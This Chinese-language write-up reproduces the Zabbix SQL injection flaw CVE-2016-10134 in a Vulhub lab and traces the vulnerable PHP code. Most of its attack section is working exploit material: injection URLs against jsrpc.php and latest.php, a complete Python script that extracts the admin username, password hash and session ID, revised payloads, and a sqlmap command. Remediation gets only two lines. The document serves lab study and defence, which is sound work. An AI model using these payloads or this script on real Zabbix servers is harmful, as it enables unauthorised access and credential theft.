






# 复现漏洞系列
## 第一篇、Zabbix sql注入漏洞复现（CVE-2016-10134）
### 一、 介绍
#### 1.1 简介
zabbix（[`zæbiks]）是一个基于WEB界面的提供分布式系统监视以及网络监视功能的企业级的开源解决方案。  
zabbix能监视各种网络参数，保证服务器系统的安全运营；并提供灵活的通知机制以让系统管理员快速定位/解决存在的各种问题。  
zabbix由2部分构成，zabbix server与可选组件zabbix agent。  
zabbix server可以通过SNMP，zabbix agent，ping，端口监视等方法提供对远程服务器/网络状态的监视，数据收集等功能，它可以运行在Linux，Solaris，HP-UX，AIX，Free BSD，Open BSD，OS X等平台上。  
#### 1.2 bug影响
zabbix 2.2.x, 3.0.0-3.0.3版本存在  
截止2021-09-11 已经更新到5.0
#### 1.3 漏洞原因
SQL注入漏洞，攻击者无需授权登陆即可登陆zabbix管理系统，进入后台后script等功能直接获取zabbix服务器的操作系统权限。  
#### 1.4 复现要求
* 版本处于bug要求
* 能够进行访问zabbix服务
#### 1.5 原理分析
注入点分析
在漏洞文件jsrpc.php中：  
``` 
require_once dirname(__FILE__).'/include/config.inc.php';
#具体请求位置接收
$requestType = getRequest('type', PAGE_TYPE_JSON);
if ($requestType == PAGE_TYPE_JSON) {
	$http_request = new CHttpRequest();
	$json = new CJson();
	$data = $json->decode($http_request->body(), true);
}
else {
	$data = $_REQUEST;
}

$page['title'] = 'RPC';
$page['file'] = 'jsrpc.php';
$page['type'] = detect_page_type($requestType);

require_once dirname(__FILE__).'/include/page_header.php';

if (!is_array($data) || !isset($data['method'])
		|| ($requestType == PAGE_TYPE_JSON && (!isset($data['params']) || !is_array($data['params'])))) {
	fatal_error('Wrong RPC call to JS RPC!');
}

$result = [];
switch ($data['method']) {
	case 'host.get':
		$result = API::Host()->get([
			'startSearch' => true,
			'search' => $data['params']['search'],
			'output' => ['hostid', 'host', 'name'],
			'sortfield' => 'name',
			'limit' => 15
		]);
		break;
    #代码省略
	case 'zabbix.status':
		CSession::start();
		if (!CSession::keyExists('serverCheckResult')
				|| (CSession::getValue('serverCheckTime') + SERVER_CHECK_INTERVAL) <= time()) {
			$zabbixServer = new CZabbixServer($ZBX_SERVER, $ZBX_SERVER_PORT, ZBX_SOCKET_TIMEOUT, 0);
			CSession::setValue('serverCheckResult', $zabbixServer->isRunning());
			CSession::setValue('serverCheckTime', time());
		}

		$result = [
			'result' => (bool) CSession::getValue('serverCheckResult'),
			'message' => CSession::getValue('serverCheckResult')
				? ''
				: _('Zabbix server is not running: the information displayed may not be current.')
		];
		break;

	case 'screen.get':
		$result = '';
        #传入具体注入数据位置---$data
		$screenBase = CScreenBuilder::getScreen($data);
		if ($screenBase !== null) {
			$screen = $screenBase->get();

			if ($data['mode'] == SCREEN_MODE_JS) {
				$result = $screen;
			}
			else {
				if (is_object($screen)) {
					$result = $screen->toString();
				}
			}
		}
		break;
        #代码省略

require_once dirname(__FILE__).'/include/page_footer.php';

```  
继续跟踪zabbix/include/classes/screens/CScreenBuilder.php路径下的此文件，查看注入数据的具体流向
```
/**
	 * Get particular screen object.
	 *
	 * @static
	 *
	 * @param array		$options
	 * @param int		$options['resourcetype']
	 * @param int		$options['screenitemid']
	 * @param int		$options['hostid']
	 * @param array		$options['screen']
	 * @param int		$options['screenid']
	 *
	 * @return CScreenBase
	 */
	public static function getScreen(array $options = []) {
		if (!array_key_exists('resourcetype', $options)) {
			$options['resourcetype'] = null;

			// get resourcetype from screenitem
			if (!array_key_exists('screenitem', $options) && array_key_exists('screenitemid', $options)) {
				if (array_key_exists('hostid', $options) && $options['hostid'] > 0) {
					$options['screenitem'] = API::TemplateScreenItem()->get([
						'screenitemids' => $options['screenitemid'],
						'hostids' => $options['hostid'],
						'output' => API_OUTPUT_EXTEND
					]);
				}
				else {
					$options['screenitem'] = API::ScreenItem()->get([
						'screenitemids' => $options['screenitemid'],
						'output' => API_OUTPUT_EXTEND
					]);
				}
				$options['screenitem'] = reset($options['screenitem']);
			}

			if (array_key_exists('screenitem', $options) && array_key_exists('resourcetype', $options['screenitem'])) {
				$options['resourcetype'] = $options['screenitem']['resourcetype'];
			}
		}

		if ($options['resourcetype'] === null) {
			return null;
		}
        后续代码省略
```  
通过此处代码对后面需要进行insert的对象进行封装，之后jsrpc.php 中引入的page_footer.php会调用zabbix/include/classes/user/CProfile.php类，组装成实际的sql语句
```
	private static function insertDB($idx, $value, $type, $idx2) {
		$value_type = self::getFieldByType($type);

		$values = [
			'profileid' => get_dbid('profiles', 'profileid'),
			'userid' => self::$userDetails['userid'],
			'idx' => zbx_dbstr($idx),
			$value_type => zbx_dbstr($value),
			'type' => $type,
			'idx2' => $idx2
		];
        #实际注入sql的生成
		return DBexecute('INSERT INTO profiles ('.implode(', ', array_keys($values)).') VALUES ('.implode(', ', $values).')');
	}
```

### 二、复现
#### 1 模拟环境
* 通过Vulhub进行环境模拟
```
目录
~/Vulhub/zabbix/CVE-2016-1013  
命令
docker-compose up -d
```
* 查看相关信息
```
# 查看容器相关信息确认ip（为与宿主机区分，如有多台实验机，可尝试实体机）
docker inspect 容器ID/容器名
# 得到 "IPAddress": 172.26.0.4（如果需要访问，需要添加路由，后续以本机ip为准）192.168.1.13

# 通过docker-compose.yml可知zabbix相关端口
# 得到 ports:
    - "8080:80"
# 当然也可以通过 netstat 查询
```
* 查看部署情况
  通过宿主机进行打开  
  攻击机已知靶机ip，且靶机系统未关闭默认开启guest账户登陆

  
#### 2.bug使用
* 登录后，查看Cookie中的zbx_sessionid：   
  
* 将这zbx_sessionid作为sid(不必须为sessionid)的值，访问   
  http://192.168.1.13:8080/latest.php?output=ajax&sid=8251b8db1104896e&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)
  
* 以下注入通过jsrpc.php触发，且无需登录
    在攻击机访问的zabbix的地址后面加上如下url：  
  http://192.168.1.13:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)
  
* 代码实现
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# Date: 2016/8/18
# Modified by: Jamin Zhang

import urllib.request, urllib.error, urllib.parse
import sys, os
import re

def deteck_Sql():
    '检查是否存在 SQL 注入'
    payload = "jsrpc.php?sid=8251b8db1104896e&type=9&method=screen.get&timestamp=1631376194000&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=999'&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&mark_color=1"
    try:
        response = urllib.request.urlopen(url + payload, timeout=10).read()
    except Exception as msg:
        print(msg)
    else:
        key_reg = re.compile(r"INSERT\s*INTO\s*profiles")
        if key_reg.findall(response.decode('utf-8')):
            return True


def sql_Inject(sql):
    '获取特定sql语句内容'
    payload = url + "jsrpc.php?sid=8251b8db1104896e&type=9&method=screen.get&timestamp=1631376194000&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=" + urllib.parse.quote(
        sql) + "&updateProfile=true&screenitemid=&period=3600&stime=20210911050632&resourcetype=17&itemids[23297]=23297&action=showlatest&filter=&filter_task=&mark_color=1"
    try:
        response = urllib.request.urlopen(payload, timeout=10).read()
    except Exception as msg:
        print(msg)
    else:
        result_reg = re.compile(r"Duplicate\s*entry\s*'~(.+?)~1")
        results = result_reg.findall(response.decode('utf-8'))
        if results:
            return results[0]


if __name__ == '__main__':
    # os.system(['clear', 'cls'][os.name == 'nt'])
    print('+' + '-' * 60 + '+')
    print('\t   Python Zabbix < 3.0.4 SQL 注入 Exploit')
    print('+' + '-' * 60 + '+')
    if len(sys.argv) != 2:
        print('用法: ' + os.path.basename(sys.argv[0]) + ' [Zabbix Server Web 后台 URL]')
        print('实例: ' + os.path.basename(sys.argv[0]) + ' http://jaminzhang.github.io')
        sys.exit()
    url = sys.argv[1]
    if url[-1] != '/': url += '/'
    passwd_sql = "(select 1 from(select count(*),concat((select (select (select concat(0x7e,(select concat(name,0x3a,passwd) from  users limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)"
    session_sql = "(select 1 from(select count(*),concat((select (select (select concat(0x7e,(select sessionid from sessions limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)"
    if deteck_Sql():
        print('Zabbix 存在 SQL 注入漏洞！\n')
        print('管理员  用户名密码：%s' % sql_Inject(passwd_sql))
        print('管理员  Session_id：%s' % sql_Inject(session_sql))
    else:
        print('Zabbix 不存在 SQL 注入漏洞！\n')
```

* 成功执行后如图
  
  之后即可通过对应用户名密码登录(Admin)
  mysql中加入用户为：
  
  登录后如；
  
至此漏洞应用成功


### 修复建议

升级版本补丁

在WAF上过滤相关命令，建立对应安全规则


### 三、后续出现问题
在经过后面进行重复使用时发现之前的代码失效了，需要进行总是查询，经过重新进行注入sql调整，重新可以使用，对sql修改为如下：  
```
passwd_sql = "(select concat((select (select (select concat(0x7e,(select concat(name,0x3a,passwd) from  users limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x limit 0,1)"
session_sql = "(select concat((select (select (select concat(0x7e,(select sessionid from sessions limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x limit 0,1)"
```  
方法中的正则修改为：        key_reg = re.compile(r"INSERT\s*INTO\s*profiles")  

当在注入点发生异常时，可以尝试通过其他手段进行自动注入，如：使用sqlmap对可能出现注入异常的位置进行自动分析，可以进行快速的问题发现，具体sqlmap执行此漏洞的命令如下：
```
sqlmap -u 'http://localhost:8080//jsrpc.php?sid=0ccd4ade848214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=2%273297&updateProfile=true&screenitemid=&period=3600&stime=20170817050632&resourcetype=17&itemids[23297]=23297&action=showlatest&filter=&filter_task=&mark_color=1' --password
```
